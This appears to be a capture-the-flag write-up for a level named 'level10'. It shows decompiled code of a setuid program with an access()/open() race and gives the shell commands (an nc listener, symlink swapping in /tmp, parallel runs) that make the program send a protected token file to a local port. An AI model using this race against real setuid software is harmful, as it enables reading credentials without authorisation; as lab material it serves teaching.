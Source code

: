 At the home directory there is a program level10 and a file token.

-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token

The user level10 can't read token, and the program as a setuid to flag10.

In the binary of the file we can see :

Test the access to the file
```
pcVar6 = in_stack_00000008[1];
param1 = in_stack_00000008[2];
iVar2 = access(in_stack_00000008[1],4);
```

Then connect to the address:
```
 local_24.sa_data._2_4_ = inet_addr(param1);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
```

And finnaly open the file:
```
 iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
```

The offset between the verification of the read write and the openning of the fd is letting us
the time to change the file in order to pen an other file than the one verified.

To resolve this exercice i used several command to achieve the race condition :

First i need to listen at the port 6969 :
 > alias listen="nc -l 6969"

Then i need to set a link to a file wich can be readed by level10 user.
 > alias reset="touch /tmp/dummy ; ln -sf /tmp/dummy /tmp/link"

I need to start the program level10 to send the value of token to 127.0.0.1
 > alias send="./level10 /tmp/link 127.0.0.1"

And i need to change the file that is linked by /tmp/link between the verification and the open:
 > alias race="ln -sf token /tmp/link"


The final command combine everything, and execute parrallel listen send and race:
 > listen & reset ; send & race
